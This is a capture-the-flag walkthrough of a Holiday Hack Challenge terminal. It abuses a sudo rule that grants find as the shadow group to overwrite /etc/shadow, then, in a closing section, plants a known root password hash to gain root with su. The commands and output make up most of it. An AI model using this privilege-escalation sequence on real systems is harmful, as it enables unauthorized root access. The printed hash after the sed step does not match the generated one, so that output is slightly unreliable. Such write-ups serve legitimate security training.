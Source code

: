 * Answer Template
  :PROPERTIES:
  :CUSTOM_ID: answer-template
  :END:

** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

#+BEGIN_EXAMPLE
                -->*<--
                  /o\
                 /_\_\
                /_/_0_\
               /_o_\_\_\
              /_/_/_/_/o\
             /@\_\_\@\_\_\
            /_/_/O/_/_/_/_\
           /_\_\_\_\_\o\_\_\
          /_/0/_/_/_0_/_/@/_\
         /_\_\_\_\_\_\_\_\_\_\
        /_/o/_/_/@/_/_/o/_/0/_\
       jgs       [___]  


    My name is Shinny Upatree, and I've made a big mistake.
    I fear it's worse than the time I served everyone bad hake.
    I've deleted an important file, which suppressed my server access.
    I can offer you a gift, if you can fix my ill-fated redress.

    Restore /etc/shadow with the contents of /etc/shadow.bak, then run "inspect_da_box" to complete this challenge.
    Hint: What commands can you run with sudo?
#+END_EXAMPLE

** How to find the terminal
   :PROPERTIES:
   :CUSTOM_ID: how-to-find-the-terminal
   :END:

Where was the terminal?

https://docker2017.holidayhackchallenge.com/?challenge=a9d07a00-55bc-4391-a02b-71f3c4f1ec44&uid=USER_ID

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We're logged in as the user =elf=. We happen to know that
=/etc/shadow= is where *NIX systems store the password hashes for
their users.

The system MOTD gives us a hint:

#+BEGIN_QUOTE
What commands can you run with sudo?
#+END_QUOTE

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

We need to overwrite /etc/shadow with /etc/shadow.bak. Basically we
need to ~cp /etc/shadow.bak /etc/shadow~, except that we don't have
permissions to do that.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

If we follow the hint, we should try to figure out what commands we can run with sudo. Let's run ~sudo -h~ to view the help documentation:

#+BEGIN_EXAMPLE
sudo - execute a command as another user
...
  -l, --list                  list user's privileges or check a specific command; use twice for longer format
...
#+END_EXAMPLE

To follow the hint, we should run sudo with the ~--list~ option, to see what our privileges are:

#+BEGIN_SRC sh
elf@40a64f5e12a2:~$ sudo --list
Matching Defaults entries for elf on 40a64f5e12a2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 40a64f5e12a2:
    (elf : shadow) NOPASSWD: /usr/bin/find
#+END_SRC

We can run the find command, but it also mentions something about shadow. Let's give it a shot:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo find
[sudo] password for elf: 
#+END_SRC

We don't know the password. The sudo output said we should be able to
run this without a password ("NOPASSWD"). Something's not quite
right. We can run sudo with ~-l -l~ as the help output said to get
some more verbose output:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -l -l
Matching Defaults entries for elf on 2100915cb450:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elf may run the following commands on 2100915cb450:
Sudoers entry:
    RunAsUsers: elf
    RunAsGroups: shadow
    Options: !authenticate
    Commands:
        /usr/bin/find
#+END_SRC

Ok. So sudo lets us run the find command as the user elf, and the group shadow. Viewing ~sudo -h~ one more time shows us that there's an option we want to set our group to =shadow=:
#+BEGIN_EXAMPLE
  -g, --group=group           run command as the specified group name or ID
#+END_EXAMPLE

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find 
.
./.bashrc
./.bash_logout
./.profile
#+END_SRC

This time, sudo let us run find without prompting us for a
password. So, we know that we can run commands as the elf user, and
the shadow group. Is this enough to overwrite =/etc/shadow=?

#+BEGIN_SRC sh
elf@2100915cb450:~$ ls -l /etc/shadow
-rw-rw---- 1 root shadow 0 Dec 15 20:00 /etc/shadow
#+END_SRC

Yes. =/etc/shadow= is owned by the root user and the shadow group, and
the group has write permissions to it. At this point, the only thing
that's left is figuring out how to use =find= in order to copy
=/etc/shadow.bak= to =/etc/shadow=. =find= has an exec option:

#+BEGIN_EXAMPLE
actions: -delete -print0 -printf FORMAT -fprintf FILE FORMAT -print 
      -fprint0 FILE -fprint FILE -ls -fls FILE -prune -quit
      -exec COMMAND ; -exec COMMAND {} + -ok COMMAND ;
      -execdir COMMAND ; -execdir COMMAND {} + -okdir COMMAND ;
#+END_EXAMPLE

Let's give it a shot:
#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \;
#+END_SRC

Looks like that worked:

#+BEGIN_SRC sh
elf@2100915cb450:~$ inspect_da_box 
                     ___
                    / __'.     .-"""-.
              .-""-| |  '.'.  / .---. \
             / .--. \ \___\ \/ /____| |
            / /    \ `-.-;-(`_)_____.-'._
           ; ;      `.-" "-:_,(o:==..`-. '.         .-"-,
           | |      /       \ /      `\ `. \       / .-. \
           \ \     |         Y    __...\  \ \     / /   \/
     /\     | |    | .--""--.| .-'      \  '.`---' /
     \ \   / /     |`        \'   _...--.;   '---'`
      \ '-' / jgs  /_..---.._ \ .'\\_     `.
       `--'`      .'    (_)  `'/   (_)     /
                  `._       _.'|         .'
                     ```````    '-...--'`
/etc/shadow has been successfully restored!
#+END_SRC

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

A one-liner is:

#+BEGIN_SRC sh
sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow \; && inspect_da_box
#+END_SRC

AsciiCinema video of the solution?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

=find='s exec syntax is a little weird, and a common mistake is forgetting to escape the semicolon at the end:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp /etc/shadow.bak /etc/shadow ;
find: missing argument to `-exec'
#+END_SRC

Another issue is just the fact that sudo is often set up for user
permissions, and not group permissions, so the =-g= flag is less well
known.

** Going Further - Privilege Escalation

This is neat, but let's elevate privileges to root on this
terminal. Our approach will be to put in a modified shadow file
instead, which will have a password we know for the root user.

First, let's generate the password hash in the right format:

#+BEGIN_SRC sh
elf@2100915cb450:~$ echo "password" | openssl passwd -1 -stdin
$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/
#+END_SRC

Now that we have a hash, we'll use sed to modify the =/etc/shadow.bak=
file to have that for root's password. Remember to be careful in
escaping special characters in the sed command line.

#+BEGIN_SRC sh
elf@2100915cb450:~$ sed -e 's/root:\*/root:$1$wDLzsvsW$0.aZ24yCO8xhhjnfHUIG3/' /etc/shadow.bak | tee better.shadow
root:$1$WPvxfOOK$JqDBD/DPQlpkUBOC3qTp51:17484:0:99999:7:::
daemon:*:17484:0:99999:7:::
bin:*:17484:0:99999:7:::
sys:*:17484:0:99999:7:::
sync:*:17484:0:99999:7:::
games:*:17484:0:99999:7:::
...
#+END_SRC

Now, we re-run our find command, and find that we can escalate to root with a password of ~password~:

#+BEGIN_SRC sh
elf@2100915cb450:~$ sudo -g shadow find -exec cp better.shadow /etc/shadow \;
elf@2100915cb450:~$ su
Password: 
root@2100915cb450:/home/elf# id  
uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
